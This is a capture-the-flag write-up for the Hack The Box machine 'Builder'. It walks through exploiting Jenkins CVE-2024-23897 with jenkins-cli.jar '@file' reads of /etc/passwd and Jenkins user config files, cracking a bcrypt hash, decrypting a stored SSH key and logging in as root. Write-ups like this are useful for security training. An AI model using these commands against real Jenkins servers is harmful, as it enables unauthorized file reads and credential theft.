




# Builder




Builder is a medium Linux Hack The Box machine that starts with a Jenkins instance vulnerable to CVE-2024-23897. The attack path is file read through Jenkins CLI, credential recovery, and decryption of a protected SSH key to reach root.

## Enumeration

I started with an Nmap scan of the target.

```bash
nmap -sCV -oN nmap.txt 10.10.11.10
```

The scan showed SSH and Jenkins:

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(10.0.18)
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigating to port 8080 confirmed it was a Jenkins dashboard. I also checked `robots.txt`, but it did not reveal anything useful.



The Jenkins page showed:

- `anonymous`
- `jennifer`



in the People tab. The Build History was empty, but the Credentials section hinted at an SSH private key for root.

## Jenkins CLI Abuse

The Jenkins version was 2.441, which is vulnerable to CVE-2024-23897 https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897?source=post_page-----143ad7fde347--------------------------------------- . This vulnerability abuses the Jenkins CLI `@file` expansion behavior to read arbitrary files from the controller.

I downloaded the Jenkins CLI client first:

```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

Then I tested arbitrary file read against `/etc/passwd`:

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node "@/etc/passwd"
```

That returned the contents of the file, confirming the vulnerability.

From `/etc/passwd`, I identified the Jenkins user and home directory:

```text
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
```

I then read the Jenkins users database:

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node "@/var/jenkins_home/users/users.xml"
```

The output revealed the Jenkins user namespace, including:

```text
jennifer_12108429903186576833
```

Using that directory name, I read Jennifer’s `config.xml`:

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```

Inside the file, I found a bcrypt password hash:

```text
#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a
```

## Credential Recovery

I cracked the bcrypt hash with Hashcat:

```bash
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

The password was:

```text
princess
```

With `jennifer:princess`, I logged into Jenkins.

## Root Key Decryption

After logging in, I found an encrypted SSH private key stored in Jenkins credentials. The key was hidden in the page source as encrypted data.

To decrypt it, I used the Jenkins script console and `hudson.util.Secret`, which is a common way to decrypt Jenkins-stored secrets.



After decrypting the private key, I used it to SSH into the machine as root.

```bash
ssh root@10.10.11.10
```

That gave me a root shell and access to the final flag.

## Attack Path

- Enumerate the host and discover Jenkins on port 8080.
- Confirm Jenkins version 2.441.
- Exploit CVE-2024-23897 through Jenkins CLI file read.
- Read `/etc/passwd` and Jenkins user files.
- Extract Jennifer’s bcrypt hash from `config.xml`.
- Crack the hash to recover `princess`.
- Log into Jenkins as `jennifer`.
- Decrypt the stored SSH private key from Jenkins secrets.
- Use the key to SSH as root.
